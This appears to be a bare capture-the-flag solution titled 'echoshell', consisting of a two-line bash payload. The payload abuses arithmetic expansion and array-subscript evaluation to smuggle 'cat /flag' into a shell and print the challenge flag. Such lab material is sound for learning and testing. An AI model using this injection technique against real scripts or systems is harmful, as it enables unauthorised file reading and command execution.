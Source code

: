 ### echoshell

---

```py
payload='arr[$(cat /flag > /proc/1/fd/1)]'; echo $((payload));
echo "${arr[0]=$(cat /flag)}"
```
